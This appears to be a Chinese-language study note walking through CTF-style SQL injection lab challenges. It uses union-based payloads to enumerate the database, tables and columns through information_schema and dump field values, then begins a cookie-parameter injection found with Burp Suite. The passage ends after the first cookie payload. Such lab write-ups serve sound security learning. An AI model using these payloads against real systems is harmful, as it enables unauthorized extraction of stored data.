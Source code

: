 **MySQL结构**

输入1发现有两个注入点

![image-20240120230921678](E:\学习资料\网安\笔记\笔记截图\image-20240120230921678.png)

验证一下这两个注入点

```
-1 union select 1,2
```

![image-20240120231132454](E:\学习资料\网安\笔记\笔记截图\image-20240120231132454.png)

查找库名,发现数据库名为sqli

```
-1 union select database(),1
```

![image-20240120231456311](E:\学习资料\网安\笔记\笔记截图\image-20240120231456311.png)

接着报表，得到了两张表

```
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'
```

![image-20240120231922354](E:\学习资料\网安\笔记\笔记截图\image-20240120231922354.png)

接着爆出thibntkicm表中的字段名，爆出字段名为jibkoiugkx

```
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='thibntkicm'
```

![image-20240120232452157](E:\学习资料\网安\笔记\笔记截图\image-20240120232452157.png)

接着爆字段的值

```
-1 union select 1,group_concat(jibkoiugkx) from thibntkicm
```

![image-20240120233251419](E:\学习资料\网安\笔记\笔记截图\image-20240120233251419.png)

**Cookie注入**

这次输入点变了，打开bp抓包，在cookie值后面的id=1发现有输入点，

![image-20240121001436493](E:\学习资料\网安\笔记\笔记截图\image-20240121001436493.png)

判断输入点

```
-1 union select 1,2
```

![image-20240121001724815](E:\学习资料\网安\笔记\笔记截图\image-20240121001724815.png)
